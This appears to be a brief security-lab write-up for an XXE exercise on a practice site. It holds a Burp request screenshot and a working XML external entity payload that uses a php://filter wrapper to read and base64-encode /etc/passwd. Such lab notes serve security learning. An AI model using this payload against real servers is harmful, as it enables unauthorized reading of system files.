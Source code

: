 # URL :- `https://hackxpert.com/labs/XXE/00.php`

![image](https://user-images.githubusercontent.com/60841283/151135623-2ecad6d9-4b55-489d-a932-a3eacf788503.png)

POST request in Burp

![image](https://user-images.githubusercontent.com/60841283/151120373-ae4d5455-72fe-4d41-8202-87ebd1889f1c.png)

Payload
```html
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<cheese>
    <cheeseType>Test &xxe;</cheeseType>
</cheese>
```

![image](https://user-images.githubusercontent.com/60841283/151135732-60d7d5bb-b8a6-4220-9b7c-c593a9d0a549.png)

![image](https://user-images.githubusercontent.com/60841283/151135772-8cbcbc46-38f3-46a8-9213-69362dd0778d.png)
